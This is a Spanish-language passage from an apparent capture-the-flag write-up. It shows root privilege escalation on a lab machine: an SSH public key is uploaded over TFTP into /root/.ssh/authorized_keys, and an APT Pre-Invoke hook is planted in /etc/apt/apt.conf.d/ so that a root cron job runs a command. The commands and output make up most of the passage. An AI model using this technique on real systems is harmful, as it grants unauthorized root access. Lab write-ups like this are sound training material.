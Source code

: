Procedemos de la siguiente forma... Recordamos que tambien existe la utilidad `TFTP` con la que si por algun factor nos permitiese subir archivos ya que por `FTP` no podemos, podriamos intentar colarle un archivo en la ruta `/etc/apt/apt.conf.d/` para intentar ejecutar un commando.

Creandonos una clave SSH publica para intentar subirla a la maquina victima atraves del servicio `TFTP` en el directorio `/root/.ssh/` llamandola `Authorized_keys`
```bash
cobb@Inception:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/cobb/.ssh/id_rsa): 
Created directory '/home/cobb/.ssh'.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/cobb/.ssh/id_rsa.
Your public key has been saved in /home/cobb/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:rXrmYDU7Y998A44tza0EMGOXxrNUw1jJTrw0rlmTPyY cobb@Inception
The key's randomart image is:
+---[RSA 2048]----+
|           *+.   |
|         ..oO.   |
|        = B= +   |
|       . O oB    |
|        S ++ o   |
|       . +o.E +  |
|      o *  *.= . |
|     . +o+o+= +  |
|      .+. ..+o . |
+----[SHA256]-----+
cobb@Inception:~$ cd .ssh/
cobb@Inception:~/.ssh$ ls
id_rsa  id_rsa.pub
```
Probamos a subir el archivo:
```bash
cobb@Inception:~/.ssh$ tftp 192.168.0.1
tftp> put id_rsa.pub /root/.ssh/authorized_keys
Sent 397 bytes in 0.0 seconds
```
Ahora procedemos a crearnos el archivo para meterlo en la ruta del `/etc/apt/apt.conf.d/` y asi ejecutar un comando para darle los permisos necesarios a la clave `athorized_keys` para que nos establezca la conexion por `ssh` sin proporcionar contraseña.
```bash
cobb@Inception:~$ cat access 
APT::Update::Pre-Invoke {"chmod 600 /root/.ssh/authorized_keys"};
```
Procedemos a a subir el archivo igual por `TFTP` y cuando se ejecute la tarea `CRON` deberia inyectarnos este comando establecido
```bash
cobb@Inception:~$ tftp 192.168.0.1
tftp> put access /etc/apt/apt.conf.d/access
Sent 69 bytes in 0.0 seconds
```
Una vez subido el archivo probamos a conectarnos por SSH a la maquina
```bash
cobb@Inception:~$ ssh root@192.168.0.1
The authenticity of host '192.168.0.1 (192.168.0.1)' can't be established.
ECDSA key fingerprint is SHA256:zj8NiAd9po8KKA/z7MGKjn7j6wPFpA2Y6bDTRecUrdE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.0.1' (ECDSA) to the list of known hosts.
root@192.168.0.1's password:
```
Vemos que demomento aun nos pide contraseña para entrar, en el momento que se aplique nuestro comando, conseguiremos entrar sin proporcionar contraseña.
```bash
cobb@Inception:~$ ssh root@192.168.0.1
```